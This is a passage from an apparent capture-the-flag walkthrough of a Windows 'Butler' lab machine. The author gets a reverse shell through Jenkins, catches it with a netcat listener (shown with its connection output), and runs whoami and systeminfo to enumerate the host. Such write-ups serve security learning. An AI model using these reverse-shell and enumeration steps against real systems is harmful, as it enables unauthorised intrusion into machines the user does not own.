 After clicking Run, I see that the browser continues to load. A good sign, because then a reverse shell should have been set up. I switch to my CLI and see that I a connection has been established.
~~~
┌──(emvee㉿kali)-[~]
└─$ nc -lvp 4321            
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4321
Ncat: Listening on 0.0.0.0:4321
Ncat: Connection from 192.168.138.8.
Ncat: Connection from 192.168.138.8:49720.
Microsoft Windows [Version 10.0.19043.1889]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\Jenkins>

~~~
Now let's find out who I am on the machine.
~~~
C:\Program Files\Jenkins>whoami
whoami
butler\butler
~~~~ 
It looks I am the user "butler", but I have no idea on what kind of Operating System I am working.

~~~
C:\Program Files\Jenkins>systeminfo
systeminfo

Host Name:                 BUTLER
OS Name:                   Microsoft Windows 10 Enterprise Evaluation
OS Version:                10.0.19043 N/A Build 19043
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          butler
Registered Organization:   
Product ID:                00329-20000-00001-AA079
Original Install Date:     8/14/2021, 3:51:38 AM
System Boot Time:          8/23/2022, 12:19:41 AM
System Manufacturer:       innotek GmbH
System Model:              VirtualBox
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 158 Stepping 10 GenuineIntel ~2592 Mhz
BIOS Version:              innotek GmbH VirtualBox, 12/1/2006
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     2,035 MB
Available Physical Memory: 930 MB
Virtual Memory: Max Size:  3,187 MB
Virtual Memory: Available: 2,122 MB
Virtual Memory: In Use:    1,065 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 6 Hotfix(s) Installed.
                           [01]: KB5015730
                           [02]: KB5000736
                           [03]: KB5012170
                           [04]: KB5016616
                           [05]: KB5015895
~~~